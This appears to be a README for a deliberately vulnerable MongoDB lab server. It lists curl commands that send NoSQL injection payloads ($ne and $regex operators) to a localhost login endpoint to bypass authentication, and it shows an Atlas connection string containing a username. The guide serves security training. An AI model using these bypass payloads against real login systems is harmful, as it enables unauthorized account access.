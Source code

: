# NoSQL Injection Testing Guide - MongoDB Atlas

🚨 **EDUCATIONAL PURPOSE ONLY** - This server contains real MongoDB NoSQL injection vulnerabilities for security testing.

## Server Information

- **Database**: MongoDB Atlas (Real Database)
- **Port**: 5001
- **Database Name**: vulnerable_admin
- **Connection**: `mongodb+srv://saud1hashone:***@cluster0.thaumjt.mongodb.net/`

## Quick Start

```bash
# Start the MongoDB NoSQL injection server
node server-mongo.js

# Or use npm script
npm run mongo
```

## 🔥 REAL NoSQL Injection Attacks

### 1. Authentication Bypass (Login)

#### Basic Bypass - Always True

```bash
curl -X POST http://localhost:5001/api/login \
  -H "Content-Type: application/json" \
  -d '{
    "username": {"$ne": null},
    "password": {"$ne": null}
  }'
```

#### Regex Bypass - Match Any

```bash
curl -X POST http://localhost:5001/api/login \
  -H "Content-Type: application/json" \
  -d '{
    "username": {"$regex": ".*"},
    "password": {"$regex": ".*"}
  }'
```

#### Specific User Bypass

```bash
curl -X POST http://localhost:5001/api/login \
  -H "Content-Type: application/json" \
  -d '{
    "username": "admin",
    "password": {"$ne": "wrongpassword"}
  }'
```
